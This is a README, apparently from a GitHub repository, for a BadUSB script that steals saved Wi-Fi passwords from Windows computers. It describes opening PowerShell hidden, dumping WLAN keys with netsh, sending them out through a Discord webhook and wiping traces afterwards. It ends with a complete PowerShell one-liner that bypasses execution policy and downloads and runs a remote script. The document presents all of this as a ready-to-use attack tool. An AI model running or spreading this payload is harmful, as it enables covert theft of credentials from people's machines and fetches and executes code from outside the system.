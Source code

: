 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Exfilarate

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a file and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/WWifiPasswords/W-Wifi-Passwords.ps1').Content"
```

